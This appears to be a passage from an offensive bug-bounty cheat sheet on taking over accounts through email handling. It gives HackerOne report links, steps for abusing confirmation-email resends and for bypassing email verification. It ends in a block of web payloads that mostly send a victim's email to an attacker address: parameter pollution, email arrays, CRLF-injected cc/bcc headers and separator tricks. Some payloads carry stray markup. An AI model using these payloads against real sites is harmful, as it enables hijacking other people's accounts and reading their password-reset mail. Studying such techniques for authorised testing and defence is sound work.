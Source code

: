     <https://hackerone.com/reports/1406471>
    ```
    
- **[Ability to bypass partner email confirmation to take over any store given an employee email](https://hackerone.com/reports/300305)**
    
- **No Rate Limit when resend Email Confirmation**
    
    ```python
    try to click resend confirmation email request
    capture it 
    try to send it 50+ times
    
    <https://hackerone.com/reports/774050>
    ```
    
- **Broken Authentication To Email Verification Bypass**
    
    ```jsx
    # Broken Authentication To Email Verification Bypass 
    1) First You need to make a account & You will receive a Email verification link. 
    2) Application in my case give less Privileges & Features to access if not verified. 
    3) Logged into the Application & I change the email Address to Email B. 
    4) Verification Link was Send & I verified that. 
    5) Now I again Changed the email back to Email I have entered at the time of account creation. 
    6) It showed me that my Email is Verified. 
    7) Hence , A Succesful Email verfication Bypassed as I haven't Verified the Link which was sent to me in the time of account creation still my email got verified. 
    8) Didn't Receive any code again for verification when I changed back my email & When I open the account it showed in my Profile that its Verified Email.
    ```
    

## **ATO from manipulating the email Parameter**

```python
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
#No domain:
email=victim
#No TLD (Top Level Domain):
email=victim@xyz
#change param case 
email=victim@mail.com&Email=attacker@mail.com
email@email.com**,**victim@hack.secry  
email@email**“,”**victim@hack.secry  
email@email.com**:**victim@hack.secry  
email@email.com**%0d%0a**victim@hack.secry  
**%0d%0a**victim@hack.secry  
**%0a**victim@hack.secry  
victim@hack.secry**%0d%0a**  
victim@hack.secry**%0a**  
victim@hack.secry**%0d**  
```
